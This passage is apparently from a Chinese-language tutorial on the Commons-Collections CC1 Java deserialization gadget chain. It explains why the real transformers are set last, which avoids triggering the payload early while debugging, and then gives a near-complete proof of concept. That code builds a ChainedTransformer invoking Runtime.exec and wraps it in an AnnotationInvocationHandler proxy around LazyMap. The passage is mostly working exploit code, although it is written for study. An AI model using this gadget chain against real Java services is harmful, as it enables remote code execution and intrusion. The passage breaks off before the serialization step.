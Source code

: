 在准备序列化前，再将真正具有危害的transformers数组传入transformerChain

在于：用动态代理代理了map对象之后，在任何地方执行了map的方法就会触发payload弹计算器。比如在本地调试代码时，会调用toString之类的方法，在还没反序列化时就调用到LazyMap#get()，导致非预期执行。自己打自己，弹出两计算器。

所以在POC的最后才将执行命令的transformers数组设置到transformerChain 

```Java
        Field f ;
        f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
```

### 完整POC

```Java
public class ProxyLazyMapCC1 {

    public static void main(String[] args) throws Exception {

        Transformer[] fakeTransformers = new Transformer[]{ new ConstantTransformer(1) };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new String[] { "calc.exe" }),

                new ConstantTransformer(1),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);


        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class); // 找到AIH里面，需要这两参数的构造方法
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap); // 实例化这个构造方法，传入 outerMap

        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);

        InvocationHandler handler1 = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);


        // 最后再把真正的Transformer传入chainedTransformer
        Field f ;
        f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
```